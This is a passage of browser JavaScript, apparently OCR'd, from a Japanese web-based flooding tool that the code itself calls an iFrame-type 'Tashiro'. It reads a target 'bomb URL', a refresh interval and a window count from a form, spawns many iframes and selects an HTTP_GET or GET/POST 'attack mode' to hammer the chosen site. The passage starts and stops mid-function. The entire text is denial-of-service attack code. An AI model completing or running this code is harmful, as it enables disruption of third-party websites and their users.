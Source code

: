 		}
		for(i = 0; i < m_ifFrame.length; i++)
		{
			try
			{
				document.all.m_dvMado.removeChild(m_ifFrame[i]);
			}
			catch(e){}
		}

		if(m_stBomburl[i] == "")
		{
			//空
		}
		else if(m_inInterval < 2)
		{
			alert("更新間隔が短すぎます。");
		}
		else
		{
			for(i = 0; i < m_inWinNum; i++)
			{
				m_ifFrame[i] = document.createElement('iframe');
				m_ifFrame[i].setAttribute("id", "frame" + i);
				m_ifFrame[i].setAttribute("height", "120");
				m_ifFrame[i].setAttribute("width", "640");
				document.all.m_dvMado.appendChild(m_ifFrame[i]);
			}
			if(http_method==1) {
				attackmode="HTTP_GET/POST"
                MODE = 1;
				modeselect(1);
			} else if(http_method==2) {
				attackmode="HTTP_GET"
                MODE = 2;
				modeselect(2);
			} else if(http_method==3) {
                MODE = 3;
				alert("[エラー] 従来のiFrame型田代はHTTP_POST ONLYモードに対応していません。");
			} else {
				alert("[エラー] 使用するHttp Requestの種類を選択してください。");
			}
		}
	}

    function main_XML()
	{
		m_inInterval = document.m_form1.m_tbInterval.value;
		m_inWinNum = document.m_form1.m_tbWinNum.value;
		m_stBomburl = document.m_form1.m_tbUrl.value;
		postdata_from_user = document.m_form1.postdata_from_user.value;
		http_method = document.m_form1.SELECT.value;
		m_inCount = 0;
		wildcard_detect(postdata_from_user, m_stBomburl);
		if(IsUrlVaild==0 || IsPostdataVaild==0) {
			return false;
		} else {
			